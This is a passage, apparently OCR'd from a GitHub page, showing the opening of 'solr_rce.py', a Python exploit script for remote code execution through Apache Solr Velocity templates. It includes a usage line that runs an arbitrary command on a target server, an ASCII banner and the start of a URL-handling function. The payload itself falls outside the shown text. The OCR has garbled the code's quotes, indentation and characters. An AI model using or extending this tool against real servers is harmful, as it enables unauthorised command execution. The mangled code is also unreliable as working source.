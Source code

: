 > python solr_rce.py http://www.0-sec.org:8983 command

![image](img/500f3fa2ef75799bbfe9137f0912e237.png)

```
#coding=utf-8

import requests

import sys

import json

banner = ‘’’

_             _____       _        _____   _____ ______

/\                    | |           / ****|     | |      |  __ \ / ****|  ****|

/  \   _ __   __ _  ***| |**   ___  | (***   ___ | |* __  | |**) | |    | |**

/ /\ \ | ’* \ / *` |/ **| ’* \ / _ \  _** \ / _ | | '__| |  _  /| |    |  __|

/ ____ | |*) | (*| | (__| | | |  __/  ****) | (*) | | |    | | \ | |****| |****

/*/    _\ .**/ _*,*|_**|*| |*|_**| |*****/ _**/|*|*|    |_|  _\*****|****_*|

| |

|*|

Apache Solr Velocity模板远程代码执行

2019-10-30  17:30

python By Jas502n

>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>

‘’’

print banner

def get_code_name(url):

if url[-1] == ‘/’:

url = url[:-1].split(’\n’)[0]
```